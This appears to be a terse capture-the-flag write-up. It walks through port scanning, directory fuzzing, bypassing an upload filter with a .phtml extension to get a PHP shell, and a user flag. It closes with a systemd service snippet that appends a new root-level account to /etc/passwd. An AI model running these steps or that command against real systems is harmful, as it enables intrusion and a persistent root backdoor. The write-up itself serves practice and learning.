 start with nmap scan

port 21,22,445,139,3333 open.

lets start with ftp

***

port 21 ftp

anonymous login is failed.

***

smb

***
wapplyzer

site uses php

***

ffuf the $ip:3333

found `/internal` it has upload file functionality.

first find out where it stored files.

fuzzing `/internal/FUZZ` got `/internal/uploads` where it stores file


try php,php2,php3,php4,phtml. extention to bypass upload restriction. phtml bypass the upload restriction.

upload php shell file. got rce.

got user.txt : 8bd7992fbe8a6ad22a63361004cfcedb



df=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "echo newroot:exk6ETHR3azEs:0:0:root:/root:/bin/bash >>/etc/passwd"
[Install]
WantedBy=multi-user.target' > $df

create new user and su to new user.